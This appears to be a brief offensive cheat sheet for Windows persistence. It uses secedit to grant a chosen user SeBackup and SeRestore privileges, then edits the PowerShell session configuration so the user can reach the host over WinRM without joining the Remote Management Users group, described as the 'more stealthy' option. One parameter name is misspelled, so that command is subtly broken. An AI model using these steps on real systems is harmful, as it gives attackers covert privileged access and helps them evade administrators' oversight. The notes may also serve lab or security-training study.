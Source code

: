 Export config

> secedit /export /cfg config.inf

Open file in notepad and search for SeBackup and SeRestore.
Add a comma at the end and add the username you want to have rights.
Do that for both backup and restore.

Now convert it back.

> secedit /import /cfg config.inf /db config.db
> secedit /configure /db config.db /cfg config.inf

So we don't have to add the user to remote management users and we want to be more stealthy lets allow winrm this way.

> Set-PSSessionConfiguration -Name Microsoft.PowerShell -showSecurityDiscriptorUI

Add user to popup.  



